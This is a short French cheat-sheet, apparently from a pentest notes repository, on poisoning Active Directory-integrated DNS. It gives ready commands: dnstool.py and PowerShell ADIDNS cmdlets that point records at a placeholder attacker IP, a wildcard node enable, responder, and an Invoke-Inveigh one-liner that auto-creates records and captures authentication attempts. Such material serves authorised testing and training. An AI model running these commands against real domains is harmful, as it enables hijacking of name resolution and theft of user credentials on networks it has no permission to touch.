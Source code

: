 ### Poisoning

Par défaut, un utilisateur peut ajouter une entrée dans le serveur dns de l'AD et faire pointer ce sous domaine vers, par exemple, l'ip d'un poste attaquant. Il est ensuite possible d'utiliser un outil tel que responder pour éventuellement récupérer des tentatives de connexions (imaginons par exemple un script de monitoring sur les différentes entrées du domaine, un lecteur réseau qui n'est plus utilisé ou autre...).

Utilisation de dnstool (https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py)

#### Ajouter un enregistrement DNS (depuis linux):

```bash
dnstool.py -u 'DOMAIN\user' -p 'password' --record 'sousDomaine' --action add --data $AttackerIP $DomainController
```

#### Depuis Windows:

```bash
Set-ADIDNSNodeAttribute -Node sousDomaine -Attribute DNSRecord -Value (New-DNSRecordArray -Data $ATTACKER_IP) -Verbose

# Activer/désactiver un node:
Enable-ADIDNSNode -Node *
Disable-ADIDNSNode -Node *
```

### Utilisation de responder:

```bash
sudo responder -I tun0 -d -D
```

Depuis Windows, il est possible d'automatiser le processus (Inveigh va checker si des appels DNS n'aboutissent à rien, si c'est le cas il va créer l'entrée DNS en question et la rediriger vers lui pour récupérer d'éventuelles informations):

```powershell
Invoke-Inveigh -ConsoleOutput Y -ADIDNS combo,ns,wildcard -ADIDNSThreshold 3 -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts
```

